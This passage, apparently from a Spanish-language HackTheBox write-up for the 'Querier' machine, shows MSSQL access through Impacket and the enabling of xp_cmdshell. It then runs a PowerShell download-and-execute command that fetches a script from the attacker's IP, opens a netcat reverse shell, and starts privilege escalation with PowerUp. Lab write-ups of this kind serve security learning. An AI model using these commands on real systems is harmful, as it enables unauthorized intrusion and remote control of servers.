 Nos `conectamos` al servicio `MSSQL`

```
# mssqlclient.py WORKGROUP/mssql-svc@10.129.255.12 -windows-auth 
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

`Activamos` la `ejecución` de `comandos`

```
SQL (QUERIER\mssql-svc  dbo@master)> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

`Ejecutamos` el `binario` .ps1

```
SQL (QUERIER\mssql-svc  dbo@master)> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.23/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

Ganamos acceso a la máquina víctima

```
# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.255.12] 49678
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
querier\mssql-svc
```

## Privilege Escalation

Nos `descargamos` [https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) y `abrimos` el `archivo` con un `editor` de `código`, en `nano` pulsando `CTRL + V` nos lleva a la última línea, una vez ahí añadimos `Invoke-AllChecks`. Una vez hecho esto nos `creamos` un `servidor http` con `python` en la misma ruta donde se encuentra `PowerUp.ps1`
